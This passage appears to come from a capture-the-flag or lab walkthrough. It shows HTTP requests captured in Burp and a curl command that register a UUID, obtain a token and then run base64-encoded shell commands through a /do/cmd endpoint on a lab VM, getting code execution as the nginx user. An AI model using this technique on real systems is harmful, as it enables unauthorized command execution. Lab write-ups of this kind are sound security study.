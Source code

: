 We can recreate this process in Burp by crafting the right packets:

Request:

>```
>POST /register/new HTTP/1.1
>Host: 192.168.56.101
>User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>Content-Type: application/json; charset=UTF-8
>Connection: keep-alive
>Cache-Control: max-age=0
>Content-Length: 14
>
>{"uuid":"dqi"}
>```

Response:

>```json
>{"registered":"ok","message":"The requested UUID is now registered.","token":"Twqnain9PyjcXQZSNKK2ZlhQRy13OfnJ"}
>```

Now that we have a token and uuid we have command execution on the server:

Request:

>```
>GET /do/cmd/id HTTP/1.1
>Host: 192.168.56.101
>User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>X-UUID: dqi
>X-Token: Twqnain9PyjcXQZSNKK2ZlhQRy13OfnJ
>Connection: keep-alive
>```

Reponse:

>```
>{"status":"error","output":"sh: $'\\211': command not found\n"}
>```

Turns out the command is also base64 encoded; moving on to curl for convenience:

>```bash
>root@kali:~# curl -s -k  -X 'GET' -H 'X-UUID: dqi' -H 'X-Token: Twqnain9PyjcXQZSNKK2ZlhQRy13OfnJ' https://192.168.56.101/do/cmd/$(base64 <<< id)
>{"status":"ok","command":"id\n","output":"uid=998(nginx) gid=997(nginx) groups=997(nginx)\n"}
>```
